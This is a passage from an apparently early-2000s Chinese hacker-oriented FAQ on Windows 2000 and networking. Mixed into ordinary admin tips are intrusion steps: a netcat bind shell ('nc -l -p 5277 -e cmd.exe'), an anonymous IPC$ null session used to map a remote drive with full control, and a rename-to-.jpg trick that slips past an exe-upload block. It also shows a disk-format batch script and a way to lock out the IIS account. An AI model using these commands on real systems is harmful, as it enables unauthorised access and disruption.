一个域如果想要升级的话，域控制器（DC）是必须最先升级的，将 NT 升级至 win2k svr，然后再对客户机进行升级。

### 交换机可以阻止广播风暴？不是只有路由器才可以吗？

这里说的可以阻止广播风暴的交换机一定是第三层交换机，这类交换机基本上就拥有了路由器的全部路由功能。因此，这种交换机是可以屏蔽掉广播而阻止广播风暴的。

> 广播风暴：在同一网段内，如果一台主机发送广播请求，每台主机都将收到该请求的拷贝并判断是否接收处理。大量广播数据包在网络中传播会导致带宽被占用、网络速度降低甚至瘫痪，这就是广播风暴。

### 我的 win2k svr 怎么找不到 POP3 服务器的设置？

呵呵，不光是你的，谁的 win2k svr 里都没有 POP3 服务器。打开 Internet 服务管理器只能看见 SMTP 服务，因此如果想在本机架设 POP3 服务器，最好找一些专业软件（如 IMAIL）。另外，若要在本机架设邮件服务器，本机必须是域控制器，否则无法架设。

### 经常听说 ISAPI 扩展，可是，这到底是什么啊？

idq、ida、.printer、.asp 等常见漏洞，很多都与 ISAPI 扩展有关。在 Internet 服务管理器中查看 web 虚拟站点配置，可以看到机器上默认识别的一些 ISAPI 扩展（图 9-69）。

关于 ISAPI 扩展，简单地说：例如 .asp 后对应的路径指向 asp.dll，可认为 asp.dll 用于解释 asp 文件。类似地，ida 相关漏洞与 ida.dll 处理机制有关，攻击中常见上传触发溢出的 ida.dll 文件等场景。

（就像 asp.dll 解释 .asp 文件一样），这样，我们就可以自己来编写自己的格式，例如，我们编写一个后缀名为 .abc 的文件，同时，我们来编写一个 ISAPI，目的就是用来解释 .abc 这样的扩展名的文件。

明白否？大概就是这个意思了，要涉及到比较高深的编程知识，大家可以在微软的官方网站上找到相关的资料。用户自己编写 ISAPI 是被允许的哦。

### 在一些讲路由器的书中经常会看到“下一跳”这个概念，这是什么？

在配置路由表的时候就会引入这些概念。例如，一台路由器的两个端口的 IP 地址分别为 1.1.1.1 和 2.2.2.1，两个端口分别连入了 1.1.1.0 和 2.2.2.0（子网掩码为 255.255.255.0）这两个网段中，两个网段中又有两台主机分别为：1.1.1.2 和 2.2.2.2，这两台主机要想通信的话，就需要配置路由表，路由表中要写到 1.1.1.2 的入口为 1.1.1.1（路由器的一个端口）。接下来是关键，我们已经知道主机 1.1.1.2 的数据会进入路由器的端口 1.1.1.1，接下来，为了能到达 2.2.2.0 这个网段就要配置下一跳，这时候，我们要做的就是从端口 1.1.1.1 跳到 2.2.2.1。这样配置完成后，通信过程就如下了：主机 1.1.1.2 → 路由器端口 1.1.1.1 → 路由器端口 2.2.2.1 → 主机 2.2.2.2。

这样就明白了吧，在两个路由器端口之间就算是二跳了。

### 我登录我自己的信箱退出后，我的朋友也来看他的信箱（两个信箱是同一个网站的），但是当输入完用户名和密码之后进入的居然是我的信箱，这是为什么？

### 为什么？

这可能是由于 cookie 引起的。不过，更有可能是因为你和这个站点之间建立的会话（session）而引起的。试着这样做：正常退出信箱，然后关闭当前用来查看信箱的 IE 浏览器。重新打开一个新的 IE 浏览器，进行另外一个信箱的登录，一般这样就会解决问题了。

### 建立 ipc$ 连接的时候用的是什么端口？

默认情况下，ipc$ 连接是使用 TCP 139 端口，但是，如果该端口关闭或是被防火墙等软件屏蔽的话，就会自动启用 445 端口（也是 TCP 端口）。

### 惨~~装了瑞星防火墙，但是想卸载的时候却蓝屏了。怎么办啊？

呵呵，这个问题我也遇到过，在单独安装瑞星防火墙后就会出现这个问题的，而且，多试试就会发现，不只是在卸载的时候，在很多操作的时候都会出现蓝屏。

解决办法就是，先在注册表修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 这个位置下，找到瑞星创建的键值，删掉，然后到瑞星防火墙的目录中直接将它删除，再到注册表里搜索瑞星的相关信息，见到就删就可以了。

关于瑞星防火墙的问题，好像只有单独安装防火墙的时候才会出现这样的问题，如果是安装杀毒软件的同时安装的防火墙的话，好像就没有这样的问题。

### 什么叫做 MAC 广播域？

在一个网络中，有一些设备，这些设备中的任何一个设备，可以接收到任何其他设备所发出的广播，这样的一个模型就叫做 MAC 广播域。这样说好像不太直观，可以看一下下面的图（图 9-70）。

从图中可以看到有两个集线器（HUB）和六台主机，那么，这六台主机和这两个集线器就组成为一个 MAC 广播域。大家应该不难看出，这实际上就是一个完全不能屏蔽掉 MAC 广播的网络。这样，在这样的网络中，通信是基于 MAC 地址的，而且任何主机所发送的 MAC 广播也将传送到每个网络设备上。

### 如何改变 telnet 服务器的欢迎语？

默认情况下，telnet 到 telnet 服务器上后，收到的是微软制定的欢迎语。在这里，我们只要找到 system32 下的 login.cmd 文件，就可以修改。打开该文件，会发现，里面就是登录 telnet 时候显示的文字，这里，我们可以任意修改，这样，telnet 登录后，就可以显示具有自己个性的 telnet 屏幕了（图 9-71）。

### win2k 的恢复控制台的命令都有哪些？

恢复控制台的命令其实和 cmd 下的命令用法是一样的，但是，它却没有 cmd 命令提示符下那么多命令，它的命令比较有限，在此列出：

- attrib
- batch
- chdir（cd）
- chkdsk
- cls
- copy
- delete（del）
- dirdisable
- diskpart
- enable
- exit
- expand
- fixboot
- fixmbr
- format
- help
- listsvc
- logon
- map
- mkdir（md）
- more
- rename（ren）
- rmdir（rd）
- set
- systemroot
- type

可以看到，一些命令是和 Windows 下的命令提示符下的命令一样的，当然，它们的用法也是一样的。但是，一些是在 cmd 下没有的，那些就是恢复控制台上特有的命令，我们可以使用：`help command` 这样的命令格式来查看命令的使用帮助。

### 在 WIN2000 下 AUTOEXEC.BAT 里写上

```bat
Format d: /q /autotest
delete d:
Format c: /q /autotest
delete c:
```

> 重启以后为什么不格式化硬盘？在 98 下好使，但在 2000 下为什么不好使？

win2k 的启动过程和 win98 的启动过程是不一样的，win2k 已经不再依靠 DOS 系统了。因此，启动的时候不需要再加载 `AUTOEXEC.BAT` 这个文件了。既然都不加载，那么当然无法起到任何作用了。

我的机子（win2000 server）被别人装了 winshell，我发现了，把程序删掉后，结果重启机子就有个提示框出现：由于有个服务或驱动程序没有正常启动，详细信息请看事件服务。

看来 winshell 被注册为系统的服务了，没办法，到控制面板中找到管理工具，里面有“服务”，在里面找到 winshell，然后在启动类型中设置为“已禁用”。

如果看它还不顺眼的话，找到 resource kit 中的工具 SC，里面有个命令为 delete，是可以删除服务的，具体方法看帮助就好了，用起来不难（图 9-72）。

图 9-72

想问一下，一个域名在 IE 的地址栏一打入，回车，就能访问到！它的原理是什么呀？

输入一个域名后，会将域名转发给 DNS，要求 DNS 做解析。DNS 收到请求后就开始解析，如果只靠它自己无法解析的话，它会去询问其他的 DNS（这个询问过程是有规律的），最后一直到得到该域名对应的 IP 地址为止。这样，得到了 IP 地址，就可以对这个站点进行访问了。

我中了病毒，后来用杀毒软件杀了，但是，我的 EXE 和 TXT 文件全都打不开，怎么回事啊？

应该是因为文件关联丢失而导致的，可以修改注册表来恢复。但是，由于无法打开 exe 文件，所以先把 regedit.exe 修改为 regedit.com，然后运行它，会发现现在可以打开注册表了。首先恢复 EXE 文件的关联，注册表位置如下：

```
HKEY_CLASSES_ROOT\exefile\shell\open\command
默认值："%1" %*
```

TXT 文件的关联则到如下位置：

```
HKEY_CLASSES_ROOT\txtfile\shell\open\command
默认值：%SystemRoot%\system32\NOTEPAD.EXE %1
```

也可以修改为 `c:\winnt\system32\notepad.exe %1`（假设 win2k 装在 C 盘）。如果是 win98 的系统的话，则改为：`c:\windows\notepad.exe %1` 即可。

今天我看见了一个同事竟然在不建立 IPC$ 的情况下，直接访问对方的共享，为什么？

道理很简单，就是因为当前登录两台主机的帐号用户名是相同的（例如用户名都为 administrator），而且两个用户的密码也是相同的，这样，就可以不建立任何连接，也不用任何验证就直接访问了。

> 在工作组模式下，Windows 主机对 Windows 主机的验证方式是 NTLM，所以说，只要用户名和密码相同就会通过验证了。（telnet 也是 NTLM 验证哦，大家应该都知道吧）。

有时候连接 telnet 会出现这种情况：整个命令提示符只有一条横线在左上角闪，这时按键即失灵，只好把它关了，请问这是为什么？

这不是什么按键失灵。从这种状况看来，显然是因为对方没有 shell 在该端口上响应你。我们常见的情况是用微软自带的 telnet 来响应，也就是说对方如果开了 telnet 服务的话，就会有显示了。

如果还不够明白的话，来做个实验就知道了，大家拿出你的 NC 来（什么？居然没有 NC？快去 down 个回来吧）。命令行下，转到 NC 的目录，用这个命令打开端口 5277，然后再 telnet 登录到运行着该命令的主机上，你会发现，同样是没有任何响应的，也就是问题者所说的按键失灵的情况。接下来，我们换个命令：

```
nc -l -p 5277
```

```bash
nc -l -p 5277 -e cmd.exe
```

（命令作用：在本地打开 5277 端口，同时将 cmd.exe 这个程序绑定到 5277 端口上，这时候，这个端口上就有了一个 shell），然后，再次使用命令：

```bash
telnet ip 5277
```

登录运行着命令的主机上，你会发现，呵呵，有了个 shell，这就是我要说的了。通过这个实验应该明白我刚开始说的话的意思了吧。（如果还不明白我就踢~~~）。

系统中有 winhelp 和 iexplore 进程，一直占用 CPU 很多资源，而且瑞星一直报告 iexplore 试图发送 email，有没有问题？

winhelp 就是 Windows 的帮助了，应该是因为你打开了帮助文件造成的。至于 iexplore，实际上就是 IE 浏览器，这个家伙本来就比较占资源，如果你还开了多个的话，那就更不用说了。瑞星报告 iexplore 在试图发送邮件，可能是因为你正在信箱里给哪个 MM 发信的缘故；如果不是的话，呵呵，那就小心了，可能是哪个后门程序或是键盘记录软件正在试图把你的密码文件发送出去呢。

能说一下 IP 数据包的格式吗？

了解 IP 数据包的格式是很重要的，尤其是想写 sniffer 程序的朋友，更应该对 IP 数据包的结构有所了解。这里，简单描述一下 IP 包头的结构：

- 版本号（4 位）
- IP 头长度（4 位）
- 服务类型（8 位）
- 数据包长度（16 位）
- 标识段（16 位）
- 标志段（16 位）
- 生存时间（8 位）
- 传输协议（8 位）
- 头校验和（16 位）
- 发送地址（16 位）
- 目标地址（16 位）
- 选项
- 填充

1. IP 头长度计算所用单位为 32 位字，常用来计算数据开始偏移量。  
2. 数据包长度用字节表示，包括头的长度，因此最大长度为 65535 字节。  
3. 生存时间表示数据被丢弃前保存在网络上的时间，以秒计。  
4. 头校验和的算法为取所有 16 位字的 16 位和的补码。  
5. 选项长度是可变的，填充区域随选项长度变化，用于确保长度为整字节的倍数。

### 我现在是用的 win2k，有没有必要升级到 Windows XP？

这个问题值得探讨一下了。Windows XP 其实是针对 win2k pro 版本的一个升级产品，而且同时还增加了很多人性化的设计。如果你是一个普通的 win2k pro 用户的话，可以考虑升级到 Windows XP；但是，如果你现在使用 win2k svr 或是更高版本的话，就不要了，在 win2k svr 中的很多功能和服务，在 XP 中无法实现。

另外，如果你喜欢 hacker 并经常去 hack 人的话，也不要升级到 XP，因为很多朋友都向我说过，在他们升级到 XP 后，很多黑软都出现异常反应，甚至无法使用。

### 我听说交换机有两种工作模式，那都是什么？

两种模式分别是“切断模式”和“存储转发模式”，分别介绍一下。

### 切断模式

在该模式中，交换机是不需要接收整个数据帧的，而只需要接收数据帧的前 14 个字节，从中获得目的地址就直接将数据帧转发出去，不做任何其他工作。所以说，这种模式下，转发过程中交换机并不会保证数据帧不出错地传输出去。而且，也不能保证在传输到交换机处已被损坏的帧不被传送出去。

### 存储转发模式

该模式与切断模式不同，它会使交换机先接收整个的数据帧，然后对数据帧进行校验，校验过程主要是依靠数据中带有的 FCS 区，查找是否有 CRC 错误。这样，保证了交换机不会将损坏的数据帧传送出去。

比较一下可知，切断模式的速度要比存储转发模式快得多，但是容错性却不如存储转发模式好。

### 我的 win2k 只有我自己用，我能不能取消 win2k 的登录界面呢？

如果你能保证确实安全，而且不需要切换用户的话，可以做到。方法如下：

右键点击“我的电脑”，选择“属性”，然后选择“网络标识”选项卡，在这里点“网络 ID”，按照对话框提示进行，选择“本机用于家庭，不是商业网的一部分”。再下一步，到了“本机用户”卡片后，选择“Windows 使用假设下列用户已登录到本机上”，然后在下拉菜单里可以选择用户名。选择你想要直接登录的用户名后，填写正确的密码后，点击下一步到完成。然后需要重新启动计算机，重启后就会发现，你不会见到那熟悉的登录界面而直接进入可爱的 Windows 了。

**注意：该法只能用于 win2k pro 版本。**

## win2k部分

登录/入侵和防护中的基础知识。登录入侵 8：初识域和域用户；登录入侵 8：防御&基础疑难解答。

在 win2k svr 以上版本中，你会发现在“网络标识”卡片上没有“网络 ID”这一项。

### 什么叫信任关系？

信任关系，trust relationship。信任关系主要是指 win2k 的域和域、或是森林和森林等之间的信任关系。关于这方面的知识，不方便多讲，如果有兴趣的朋友，可以参考一些关于 win2k 网络管理方面的书籍。

### 什么是 NTLM 验证？

NTLM = NT LAN MANAGER。我们熟悉的 telnet 服务就是 NTLM 验证了。如果使用 NTLM 身份验证，则客户端使用 Windows 2000 安全上下文进行身份验证，并不会提示用户键入用户名和密码。用户名和密码是加密的。

> 由于在 win2k 中才引入了 Kerberos v5 验证方式，所以导致很多情况下都会使用 NTLM 验证。以下情况会使用 NTLM 验证：

- Windows 2000 Professional 客户端向 Windows NT 4.0 的域控制器验证身份。
- Windows NT 4.0 Workstation 客户端向 Windows 2000 域控制器验证身份。
- Windows NT 4.0 Workstation 客户端向 Windows NT 4.0 域控制器验证身份。
- Windows NT 4.0 域中的用户向 Windows 2000 域验证身份。
- 另外，在没有加入域的主机之间，也是使用 NTLM 验证的。

### 什么是访问令牌？

在 Windows NT 以后的版本中，任何一个用户，无论是登录到本地机还是登录到域，都会在登录成功的时候获得一个系统分配给他的令牌。这个令牌里包含了该用户的 SID 以及他所属组的 SID 等等。然后，当这个用户访问一个文件或者文件夹的时候，文件或文件夹会取出它的 ACL 来查看，同时还会获得该用户的某个或者某一些 SID 来和它的 ACL 进行对比。如果 ACL 中写到了该 SID 的用户可以访问则通过；如果没有写到或是写到了禁止访问的话，就拒绝该用户的访问。

### 192.168.1.0/24 这表示什么意思啊？

这实际上是表示一个网段，该网段为 192.168.1.*。这里，如何看呢，方法比较简单，我们先把 IP 地址转化成为二进制，192.168.1.0 的结果为：

```
11000000.10101000.00000001.00000000
```

后面的“/24”可以理解成为截取前 24 位的意思，那么前 24 位就是 `11000000.10101000.00000001` 了，这便是一个网段了。再将它转化成为十进制，实际上就是 192.168.1 了，所以说 192.168.1.0/24 是表示 192.168.1.* 这一网段。

### 常见的一级域名都有哪些？

- com: Commercial organizations，商业组织，公司
- edu: Educational institutions，教研机构

- gov: Governmental entities，政府部门
- int: International organizations，国际组织
- mil: Military (U.S.)，美国军方
- net: Network operations and service centers，网络服务商
- org: Other organizations，非营利组织

### 如何登录路由器？

新买回来的路由器都是需要通过 console 接口进行连接登录的，通过 console 口，会有一根电缆与计算机直连，然后使用 Windows 的超级终端进行登录连接。

然而，路由器在实际应用的时候，都是放在 Internet 上的，因此，我们不可能通过电缆直连，因此，我们就要使用远程登录的方式进行连接登录，最常使用的就是 telnet 登录（除此之外，还有使用 http 进行路由器管理的方式）。

### 如何才能学习路由器命令？我不可能去买一台吧？

不需要买啦，只要到网上 down 一个路由器模拟软件就可以了，现在的路由器或者交换机等等的模拟软件都很多，虽然支持的命令不全，但是，作为入门学习和练习来说，这已经是足够的了。

### IUSR_MACHINENAME 这是什么帐号？

这个帐号是 Internet 信息服务（IIS）安装时候自动创建的，该帐号的密码是我们不知道的，是系统保存的。它的作用是用于匿名访问 Web 站点，如果对方使用 IIS 来启 Web 服务的话，那么，当我们浏览站点的时候，就是使用这个帐号的，该帐号隶属于 Guests 组。

> 著名的 Unicode 漏洞大家都应该知道，通过该漏洞获得的权限就是该用户的权限，也就是说通过该漏洞只能获得 Guests 组的权限。

由于浏览 Web 页面的时候需要用到该帐号，所以，如果你的服务器上启动了 Web 服务的话，该帐号是不能被停掉的，否则所有人都浏览不到你的漂亮页面了。

### IWAM_MACHINENAME 是什么帐号？

这是 IIS 的进程外应用程序启动时使用的帐号。在启动 IIS 的时候，除了 IIS 本身进程需要启动以外，还有一些相关的应用程序需要启动，该帐号就是用来启动这些应用程序的。

该帐号也是属于 Guests 组的。

> 如果该帐号的密码被修改的话，就会出现一些不可预料的错误。例如，我们常见的不能解析 .asp 文件（会返回 http 500 这个错误信息），就是其中一个最常见的错误。

通过上面的叙述，大家应该知道，如果该帐号被停用的话，会怎么样？呵呵，自己想去吧。

### TSInternetUser 是什么帐号？

这是终端服务安装的时候自动创建的帐号（由于终端服务只有在 win2k svr 以上的版本才能被安装，所以，只有 win2k svr 以上版本的 win2k 才有可能有这个帐号）。该帐号好像是没有什么太大的用处，如果不需要的话，可以停掉它，免得被入侵者利用。

### 最后附录部分：详解 boot.ini

系统文件 boot.ini 的作用是实现多重系统引导。如今安装双操作系统或多操作系统的用户很多，由于种种原因，启动菜单可能会出现各种问题。如果熟悉 boot.ini 文件的构成，就可以通过修改 boot.ini 文件来简单修复启动菜单。

首先将隐藏文件显示出来，然后记事本打开 C 盘根目录下的 boot.ini 文件，内容如下（本机的 C、D 和 E 分区分别安装的是 Windows Me、Windows 2000 Server 和 Windows XP Professional 操作系统）：

```ini
[Boot Loader]
Timeout=30
default=multi(0)disk(0)rdisk(0)partition(2)\WINNT
[Operating systems]
multi(0)disk(0)rdisk(0)partition(3)\WINDOWS="Microsoft Windows XP Professional" /fastdetect
multi(0)disk(0)rdisk(0)partition(2)\WINNT="Microsoft Windows 2000 Server" /fastdetect
C:\="Microsoft Windows Me"
```

“Timeout=” 用来控制启动菜单显示的时间，如果你在规定的时间内未选择操作系统，系统将启动默认的操作系统。默认的显示时间是 30 秒，你可以修改“=”后面的数值来改变启动菜单显示的时间。

“default=” 用来控制默认的启动系统，“=”后面是操作系统的启动目录，目前默认的系统是 Windows 2000 Server，你可以通过改变目录来改变默认的启动系统，例如要想让默认的启动系统是 Windows Me，可以设为：default=C:\。

“[Operating systems]”下显示的是本机已安装的操作系统列表，如果你是双操作系统，那么只会有两行。注意：每一行“=”前是该操作系统的启动目录。Windows Me 的启动目录是“C:\”，Windows 2000 Server 的启动目录是“multi(0)disk(0)rdisk(0)partition(2)\WINNT”，Partition 的意思是“分区”，也就是说启动目录实际上指的就是“D:\WINNT”和“E:\WINDOWS”，只不过表示的方法不一样。“=”后面包含在双引号之间的内容是启动菜单显示的内容，可以随意更改成更有个性的名称。

通过以上分析，我们知道可以通过修改 boot.ini 文件来改变启动菜单显示时间、启动菜单默认选项和启动菜单选项。这样，一旦启动菜单出现了问题，我们就可以用简单的方法修复了。例如重装系统后发现多了一个启动选项，你可以在 boot.ini 文件中去掉相应的项目，保存后重新启动电脑即可。需要注意的是，为了防止修改时出现错误，请先将 boot.ini 文件备份。


## 第10章 win2k安全及网络安全漏洞


### 反网络安全探讨

aBcD@&*890 这样的密码安全性怎么样？是不是很难被破解呢？

如果只考虑破解密码的话，这样的密码确实非常难破解，对于一些工具，甚至是无法破解（因为一些工具是需要看使用者制作的字典的质量了，很多人在制作字典的时候都不会包含 @#$%&* 这样的特殊字符）。但是，有一点要知道，黑客对密码所能做的并不只是猜解。例如：欺骗和偷窥，也是获得密码的两种常见方法。

如果密码很长，并且带有大量的特殊字符，那么，很难避免有人会以纯文本的方式对密码进行保存，这样一来，对一些黑客来说，反而省去了猜解密码的麻烦。另外，就算是密码相对比较短、容易记忆，那么，在密码输入的时候，由于其字符的特殊性，必将导致输入速度的下降，那么这样一来，很多人都可以清楚地看到密码了。

### 关于密码的一些小经验：

使用一些容易记忆的、有特殊意义的字符作为密码，例如：g-python@263.net，这是一个信箱地址，我想很少有谁会忘记自己的信箱特殊字符。而且，这个密码中包含了“@”、“-”和“.”这样不常在密码中使用的特殊字符，而且从长度上来看，这个密码长 16 位，也算是够长的了。

微软官方称，win2k 的登录密码在被设置为七位或是十四位的时候其安全性最好，最不易被破解，毕竟我们用的还是 Windows，所以还是听微软的话吧。

有人把密码设为暗码，就是看起来像个空格，但是输入空格后却不行，这是怎么做的？

如果是一个空格却不同于键盘上的空格的话，我想，那应该是别人采用了 ASCII 码的空格吧。ASCII 码的空格和普通的空格是不一样的，两种空格并不能被识别为同一个空格。ASCII 码空格的输入方法是：按住 Alt 键，然后在小键盘上（切记，一定要在小键盘上）输入 255，这时候会发现出现了一个空格，这就是 ASCII 码的空格了。我们看起来这和普通的空格没区别，但是计算机却不这么认为，这就形成了所谓的暗码。


win2k 的锁定阈值如何使用？

win2k 提供了对帐号设置锁定阈值的功能，如果用户账号 N（即设定的锁定阈值的大小）次登录失败后，该帐号即被锁定。

使用方法：依次打开 控制面板→管理工具→本地安全策略→帐户策略→帐户锁定策略→帐户锁定阈值，在这里设置锁定阈值的大小。（图10-1）


**图10-1**

### 经验&教训：

关于锁定阈值的设置要小心设置，如果设置不当的话，有可能会导致正常登录的用户出现无法登录的状况。举两个常见例子说明：

例一、在 win2k 安装了 IIS 服务后，会在本地机上建立一个用户名为 IWAM_MACHINENAME，在我的机器上，该用户名为：IWAM_PYTHON（图10-2）。


**图10-2**

大家清楚，该用户名的密码在默认情况下是计算机用户不知道的。而且，该用户的作用实际上就是浏览 Web 服务时，浏览者所使用的用户。如果该用户被停掉（禁用）的话……不用我多说了吧。

该用户是否被禁用，和帐户锁定阈值有什么关系呢？

我们假设这样一种情况：一台主机，打开了 Terminal Service 服务，并且该主机设置了帐户锁定阈值策略，那么，我们可以通过使用 Terminal Service 客户端连接主机，对 IWAM_MACHINENAME 这个帐户进行猜解，当猜解次数大于锁定阈值的一半的时候（为什么要大于一半，接下来会说明），该帐户就会被锁定，那么，在一定的时间范围内，其实就和该帐户被禁用是完全一样的，用户将不能浏览 Web。

例二、在域中，一台 win2k（或者版本高于 win2k 的主机）主机登录到域的时候，默认使用 kerberos 验证方式。但是，若由于种种原因而导致 kerberos 失败的话，那么，接下来，在用户前台未知的情况下，系统就会自动采用 NTLM 方式再次进行验证。这样一来，一个用户使用错误的密码进行登录的时候无形中就等于进行了两次登录。因此，如果对帐户的锁定阈值设置为 2 的话，那么，一次登录失败后，该帐户就会被锁定了。同理，这也就是在例一中猜解帐户次数要大于阈值的一半的原因了。

- 描述：1563 端口不停地向网上一些古怪 IP 发送 UDP 报，造成上网时候发送的数据比收到的数据还要多。
- 处理：The Cleaner 扫描未发现木马，Norton Antivirus 扫描未发现病毒。
- 网络监视器捕捉如下：

```text
SSP: Unknown Security Support Provider
Frame: Base frame properties
ETHERNET: ETYPE = 0x800; Protocol = IP; DOD = Internet Protocol
IP: ID = 0x1c5; Proto = UDP; Len = 404
UDP: Src Port: Unknown (1563), Dst Port: Unknown (1434), Length = 384 (0x180)
MSRPC: dg RPC Ping: seq 0x1010101
opnum 0x101 frag 0x101 serial 0x101
actid 0x01010101010101010101
010101010101
SSP: Unknown Security Support Provider
```

## win2k部分疑难解答

发送目标如：177.11.25.187、17.219.124.38、209.208.15.38 等，多数地址无法解释。请问可能是什么原因引起？

```text
UDP: Src Port: Unknown (1563);
Dst Port: Unknown (1434); Length = 384 (0x180)
```

看这里哦，目标的地址是你的 1434 端口，就是前一阵子的 sql2 攻击程序的溢出端口，也是前一阵子蠕虫攻击的 SQL 端口（不管是哪一个，都很危险哦）。如果你确实装了 SQL 的话，赶快打上 SP3 吧。

我的天网防火墙一直都有接收 IGMP 的数据包~

- [22:32:52] 接收到 10.221.117.1 的 IGMP 数据包，该包被拦截。
- [22:33:53] 接收到 10.221.117.1 的 IGMP 数据包，该包被拦截。
- [22:34:54] 接收到 10.221.117.1 的 IGMP 数据包，该包被拦截。
- [22:35:54] 接收到 10.221.117.1 的 IGMP 数据包，该包被拦截。
- [22:36:54] 接收到 10.221.117.1 的 IGMP 数据包，该包被拦截。

好烦呀！请问怎么才能禁呀？24 小时没停过，都 3 天了！救命呀！

（经过我踩点调查，得知，该求助者是小区上网，他们的 ISP 提供了在线视频服务）问题就在于小区上网的视频服务了；大部分的视频服务都是使用 IGMP 协议进行管理的。

简单说，如果申请了视频服务，服务器处就会把他加到服务器的一个组中，这个组中记录了所有申请了视频服务的家庭。服务器端使用 IGMP 协议来对这些客户端进行管理，以确定视频是否发送到位或是客户端是否退出了该服务等等。（如果想深入了解的话，请参考有关 IGMP 的资料）

**经验**：win2k 对一些经过加工的 IGMP 数据报确实存在问题。想必大家也见过一些使用 IGMP 攻击的工具，有些工具在多次使用后，对 win2k 也会产生效果，不过并不是很严重，一般情况都是蓝屏。只要重新启动计算机就可以解决问题。

我听说过 win2k 的登录密码缓存存在问题，是怎么回事？

在一些安全站点上有相关的描述，大概内容为：在进入 win2k 的 GUI 界面后，修改密码后，短时间内，还可以使用修改前的旧密码进行登录。

对此，我在数台 win2k pro 和 win2k svr 上做过实验，得出结论，使用以下过程进行的话，可以获得成功：登录 GUI 界面后，切换到 cmd（命令行提示符）下，然后使用命令 `net user user_name new_password` 修改密码，然后在不做任何其他操作的情况下，按下 `ctrl+alt+del`，来到 Windows 安全对话框处，选择锁定计算机。这时候，使用修改前的旧密码进行登录，获得成功。

一些问题：如果是通过计算机管理或是其他 GUI 界面进行密码修改后，会出现不成功的情况。或者是在命令行下修改密码后注销系统，然后再使用旧密码登录也会出现不成功的情况。

这个 bug 显然出现在密码缓存处，不过就我个人认为，可利用价值并不大，因为一些条件很难满足。不过，这毕竟反映出了 Windows 系统的一个比较致命的错误，也是值得重视的。

> **问：** 我的 win2k 每次开机都会共享所有的盘，而且是隐藏共享，是不是被黑了？  
> **答：** 这是 win2k 的默认共享，而且是隐藏共享。


这些共享分别为 `ipc$`、`admin$`、`label$`（所有的盘符都被隐藏共享）。

这些共享都是默认共享的，每次开机这些共享就会出现，这可以说是 win2k 的一个隐患了。虽然说我们可以通过设置强悍的密码来阻挡入侵者，但是，如果你的系统磁盘格式为 NTFS 的话，就会体会到这个隐患有多么可怕了。

默认安装的 win2k 有以下几个隐患：可以建立 `ipc$` 空连接、所有的磁盘都有隐藏共享、所有的磁盘对 everyone 组的访问权限都为 fullcontrol（完全控制）（图10-3）。


虽然 win2k 的安全隐患还不止这些，但是，这三点加在一起，就是致命的了。通过这三个条件，我们就可以很轻易地完成一次入侵：

```bash
net use \\ip\ipc$ "" /user:""
```

然后，这个时候，我们就可以直接用 `net use \\ip\x$` 来映射对方的磁盘了，而且，对对方的磁盘的控制权限还是 fullcontrol（完全控制）。这是因为我们在建立 `ipc$` 空连接的时候就像是使用匿名来与主机建立了一个连接，而匿名用户在默认情况下又是属于 win2k 的 everyone 组的，因此，凡是允许 everyone 组访问的磁盘，我们就有着相同的权限，怎么样，很可怕吧？

> **问：** 每当我上传后缀为 exe 的文件的时候，就会出现禁止的字样，怎么回事？  
> **答：** 对方的管理员可能通过一些策略来禁止远程上传 exe 文件，不过，根据 win2k 的一些内在问题（也许说隐患更合适），我们可以通过一些其他的手法。例如，我要上传 `qq.exe` 这个文件（……版的安全程序），但是，由于对方禁止掉了 exe 文件的上传，所以，我将它改名为 `qq.jpg`，然后，打开命令提示符，转到该目录下，运行 `qq.jpg`，然后……呵呵，可以看到，QQ 的安全程序运行了（图10-4）。


导致这个问题的原因主要是因为在命令提示符下运行程序的话，会对文件头进行检查，而不是通过对后缀名检查而指定程序来打开文件。这样，即使是改了名的 exe 文件也会被认为是 exe 文件来运行。类似的，我们还可以把后缀名改为 .com、.cmd、.bat、.pif、.scr 等等，大家慢慢探索哦。

> 为什么要把防火墙放在路由器的前面？放在前面和后面有什么不一样？能说说理由吗？

1. 主要是因为两点：
   - 第一、保护路由器。因为现在越来越多的攻击和入侵开始瞄准路由器，如果一个公司或企业把他们内部网的路由器直接暴露在 Internet 上，那则是非常危险的事情。一些黑客很有可能会借助路由器来做跳板来进一步进入内部网络，或者，他们会对路由器直接进行 DoS 攻击，使得内部网络无法与外界的 Internet 上的主机通信。不管怎么样，损失都是无法估量的。因此，在路由器前加装防火墙会有效地抵挡并屏蔽掉入侵和攻击。
   - 第二、为路由器减少负担。现在大部分的路由器都有过滤功能，也有很多网络都会使用这个功能，使用路由器来过滤掉一些非法的数据包。但是，如果一个大型网络中的所有出入数据包全都转交给路由器来完成的话，负担未免太大了一些。因此，加装防火墙，对于一些入站（也会对出站做过滤，但远不如对入站数据过滤的严格）数据做些过滤，减轻了路由器负担。

### 如何修改 Terminal Service 默认使用的 3389 端口？

修改注册表，在注册表中有两个位置：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp
```

下面的 PortNumber 值，默认是 3389，在这里修改就可以。例如，在这里，我修改为 5277（图10-5）。


另外，还有一个地方，在这里：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp
```

下面仍然是 PortNumber 值，默认也是 3389，修改这里，注意，这里修改的值……要与上面一致，所以这里也要改为 5277 才可以。

然后重新启动，检查一下 5277 端口是否是开放状态。用最简单的方法，直接 `telnet python 5277`（图 10-6）。


> 远程主机开设了 Terminal Service 服务，却修改了端口，但在连接的时候还是连接对方的 3389，可以改吗？

可以的。打开终端服务客户端连接管理器（图 10-7）。


在这里新建一个连接（图 10-8）。


然后选中这个连接（左键单击一下），在文件菜单里选择“导出”。这时候会生成一个 cns 文件，找到这个文件并用记事本打开它，然后找到这一行“...Port=3389”（图 10-9）。


在这里修改端口号。假设对方修改 Terminal Service 服务端口号为 5277，在这里也将 3389 改为 5277 即可。

> 我用的是 Windows XP Professional 版，怎么修改 Terminal Service 客户端的端口？

首先，Windows XP 中的 Terminal Service 叫做远程桌面，在“开始-程序-附件-通讯”中可以找到它。打开后，点“选项”会出现一个比较详细的窗口，里面要求填写主机地址、用户名、密码等等。在这里，填写好主机地址和用户名（密码可以先不写），然后点“另存为”把这个配置保存下来（图 10-10）。


然后再找到保存的那个文件，用记事本程序将它打开（图 10-11）。


图 10-11

